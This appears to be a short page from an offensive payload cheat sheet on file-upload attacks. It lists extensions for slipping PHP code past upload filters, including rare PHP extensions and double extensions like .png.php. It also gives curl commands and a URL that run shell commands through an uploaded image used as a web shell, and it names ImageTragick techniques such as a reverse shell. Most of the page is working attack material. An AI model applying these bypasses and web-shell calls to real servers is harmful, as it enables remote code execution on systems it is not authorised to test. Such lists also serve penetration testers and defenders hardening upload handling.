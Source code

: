 # Upload
Uploaded files may pose a significant risk if not handled correctly. A remote attacker could send a multipart/form-data POST request with a specially-crafted filename or mime type and execute arbitrary code.	

## Exploits
Image Tragik
```
HTTP Request
Reverse Shell
Touch command
```


PHP Extension
```
.php

Less known extension
.pht
.pgif
.phtml
.shtml

Double extension
.jpeg.php
.png.php
```


PNG Bypass a resize - Upload the picture and use a local file inclusion
```
You can use it by specifying $_GET[0] as shell_exec and passing a $_POST[1] parameter with the shell command to execute.
curl 'http://localhost/b.php?0=shell_exec' --data "1='ls'"
curl 'http://localhost/test.php?0=system' --data "1='ls'"
```


JPG Bypass a resize - Upload the picture and use a local file inclusion
```
http://localhost/test.php?c=ls
```

## Thanks to
* Bulletproof Jpegs Generator - Damien "virtualabs" Cauquil